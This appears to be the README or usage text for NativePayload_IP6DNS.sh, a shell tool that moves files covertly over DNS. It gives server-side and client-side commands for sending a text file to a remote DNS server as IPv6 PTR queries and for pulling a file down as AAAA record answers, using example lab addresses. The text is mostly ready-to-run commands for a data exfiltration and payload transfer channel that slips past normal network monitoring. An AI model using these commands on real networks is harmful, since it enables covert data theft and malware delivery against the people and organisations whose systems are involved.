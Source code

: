 #Pictures for two sysntaxes :

for more information about AAAA records you read Chapter 6 and for more information avout IPv6 PTR records you can read Chapter 7

Example A-Step1: (Server Side ) ./NativePayload_IP6DNS.sh -r

Example A-Step2: (Client Side ) ./NativePayload_IP6DNS.sh -u text.txt DNSMASQ_IPv4 [delay] (sec) [address] xxxx:xxxx

example IPv4:192.168.56.110 : ./NativePayload_IP6DNS.sh -r

example IPv4:192.168.56.111 : ./NativePayload_IP6DNS.sh -u text.txt 192.168.56.110 delay 0 address fe81:2222

Description: with A-Step1 you will make DNS Server , with A-Step2 you can Send text file via IPv6 PTR Queries to DNS server

Example B-Step1: (Server Side ) ./NativePayload_IP6DNS.sh -d makedns test.txt mydomain.com [address] xxxx:xxxx

Example B-Step2: (Client Side ) ./NativePayload_IP6DNS.sh -d getdata mydomain.com DNSMASQ_IPv4"

example IPv4:192.168.56.110 : ./NativePayload_IP6DNS.sh -d makedns text.txt google.com address fe80:1234

example IPv4:192.168.56.111 : ./NativePayload_IP6DNS.sh -d getdata google.com 192.168.56.110

Description: with B-Step1 you will have DNS Server , with B-Step2 you can Dump test.txt file from server via IPv6 AAAA record Query
